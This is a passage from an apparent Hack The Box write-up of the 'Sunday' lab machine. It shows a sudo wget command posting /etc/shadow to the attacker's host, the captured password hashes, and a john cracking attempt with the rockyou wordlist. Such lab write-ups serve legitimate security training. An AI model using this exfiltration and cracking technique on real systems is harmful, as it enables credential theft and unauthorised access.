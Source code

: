 On the target, I post the file with `wget`:

```bash
sammy@sunday:~$ sudo /usr/bin/wget --post-file=/etc/shadow 10.10.14.41
--21:41:02--  http://10.10.14.41/
           => `index.html'
Connecting to 10.10.14.41:80... connected.
HTTP request sent, awaiting response... No data received.
```

I now have the contents of `/etc/shadow`.

```
artis3n@kali-pop:~/shares/htb/sunday$ cat shadow
POST / HTTP/1.0
User-Agent: Wget/1.10.2
Accept: */*
Host: 10.10.14.41
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 634

root:$5$WVmHMduo$nI.KTRbAaUv1ZgzaGiHhpA2RNdoo3aMDgPBL25FZcoD:14146::::::
daemon:NP:6445::::::
bin:NP:6445::::::
sys:NP:6445::::::
adm:NP:6445::::::
lp:NP:6445::::::
uucp:NP:6445::::::
nuucp:NP:6445::::::
dladm:*LK*:::::::
smmsp:NP:6445::::::
listen:*LK*:::::::
gdm:*LK*:::::::
zfssnap:NP:::::::
xvm:*LK*:6445::::::
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```

I move the `root` hash to a file of its own and try to crack it with `john`.

```bash
john root_pass --wordlist=/home/artis3n/Documents/SecLists/Passwords/Leaked-Databases/rockyou.txt
```

This does not work, nor does a few other wordlists.
I admit defeat.
I opt to grab the root flag off the device with `wget`.

